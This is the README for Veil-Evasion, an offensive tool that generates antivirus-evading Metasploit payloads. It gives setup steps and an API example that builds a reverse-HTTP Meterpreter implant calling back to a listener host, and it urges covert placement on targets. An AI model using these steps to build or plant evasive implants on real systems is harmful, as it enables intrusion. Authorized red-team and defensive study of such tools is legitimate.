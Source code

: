 # Veil-Evasion

Veil-Evasion is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.

NOTE: `./setup/setup.sh` should be re-run on every major version update. If you receive any major errors on running Veil-Evasion, first try re-running this script to install any additional packages and update the common configuration file.

Veil-Evasion is currently under active support by @ChrisTruncer, @TheMightyShiv, @HarmJ0y.

Thanks to:
* @jasonjfrank
* @mjmaley
* @davidpmcguire

## Software Requirements:

### Linux

1.  Use Kali (x86) and all dependencies are pre-installed

**or**

1.  Install Python 2.7
2.  Install PyCrypto >= 2.3

### Windows (for Py2Exe compilation)

1.  Python (tested with x86 - http://www.python.org/download/releases/2.7/)
2.  Py2Exe (http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)
3.  PyCrypto (http://www.voidspace.org.uk/python/modules.shtml)
4.  PyWin32 (http://sourceforge.net/projects/pywin32/files/pywin32/Build%20218/pywin32-218.win32-py2.7.exe/download)

## Setup (tl;dr)

Run `./setup/setup.sh` on Kali x86 (for Pyinstaller).

Install Python 2.7, Py2Exe, PyCrypto, and PyWin32 on a Windows computer (for Py2Exe).

### Quick Install

```bash
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd veil-Evasion/
bash setup/setup.sh -s
```

## Description

Veil-Evasion was designed to run on Kali Linux, but should function on any system capable of executing python scripts.  Simply call Veil-Evasion from the command line, and follow the menu to generate a payload.  Upon creating the payload, Veil-Evasion will ask if you would like the payload file to be converted into an executable by Pyinstaller or Py2Exe.

If using Pyinstaller, Veil-Evasion will convert your payload into an executable within Kali.

If using Py2Exe, Veil-Evasion will create three files:

* payload.py - The payload file
* setup.py - Required file for Py2Exe
* runme.bat - Batch script for compiling the payload into a Windows executable

Move all three files onto your Windows machine with Python installed.  All three files should be placed in the root of the directory Python was installed to (likely C:\Python27).  Run the batch script to convert the Python script into an executable format.

Place the executable file on your target machine through any means necessary and don't get caught!

## RPC Server
On the listener side, run:

`./Veil-Evasion --rpc`

This will start a listener on port 4242.

REST API is entirely JSON based, both requests and respoonses. The following is the format:

```
    version:
        request => {'action': 'version'}
        response <= {'version': <version info>}

    module options:
        request => {'action': 'options', 'name': '<module name>'}
        response <= {<Dict: <option key> => <optiion value>}

    generate:
        requests => {'action': 'generate', 'payload': {Dict: <option key> => <option value}}
        response <= {'path': '<path to binar>'}

    if there is an error processing the request, the response will be:
        {'error': '<some error message>'}
```

This is a simple example of working with Veil-Evasion using Python and python-requests.

```
In [34]: import json

In [35]: import requests

In [36]: requests.post('http://127.0.0.1:4242/', data=json.dumps({'action': 'generate', 'options': {'payload': 'c/meterpreter/rev_http', 'LHOST': '192.168.2.236', 'outputbase': 'hello'}})).content
Out[36]: '{"path": "/usr/share/veil-output/compiled/hello.exe"}'

In [37]: requests.post('http://127.0.0.1:4242/', data=json.dumps({'action': 'options', 'name': 'c/meterpreter/rev_http'})).contentOut[37]: '{"LPORT": ["8080", "Port of the Metasploit handler"], "COMPILE_TO_EXE": ["Y", "Compile to an executable"], "LHOST": ["192.168.2.236", ""]}'
```

In order to generate a payload, *ALL* parameters must be included:

* payload - which payload to generate
* outputbase - the name to save the payload as
* LHOST - the ip address for the listening host
* LPORT - the port for the listening host
* pwnstaller - True to package python programs into an executable. False if not. Ignored for other payloads

This is a good reference to understand whether or not in use pwnstaller: http://www.verisgroup.com/blog/2014/05/07/pwnstaller-and-the-veil-framework/
